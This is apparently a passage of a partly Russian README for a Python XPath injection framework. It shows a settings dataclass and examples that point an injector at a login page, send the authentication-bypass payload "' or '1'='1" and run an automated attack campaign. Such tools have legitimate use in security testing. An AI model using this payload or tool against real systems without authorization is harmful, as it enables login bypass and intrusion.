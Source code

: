 ## ⚙️ Configuration

### Settings

```python
@dataclass
class Settings:
    """
    Настройки фреймворка.
    """
    timeout: int = 30
    max_retries: int = 3
    proxy: Optional[str] = None
    verify_ssl: bool = True
    user_agent: str = "XPath-Injection-Framework/1.0"
```

## 📝 Примеры использования

### Базовое использование

```python
from xpath_injector import XPathInjector
from xpath_injector.config import Settings

# Создание инжектора
settings = Settings(timeout=60)
injector = XPathInjector("http://target.com/login", settings=settings)

# Выполнение инъекции
result = injector.execute_injection("' or '1'='1")

if result.success:
    print(f"Уязвимость найдена! Время выполнения: {result.execution_time}")
```

### Автоматизированное тестирование

```python
from xpath_injector import AutomatedInjector, XPathInjector

# Инициализация
injector = XPathInjector("http://target.com/login")
automated = AutomatedInjector(injector)

# Запуск кампании
automated.run_campaign()

# Получение отчета
report = automated.generate_report()
print(f"Успешных атак: {report['successful_attempts']}")
```
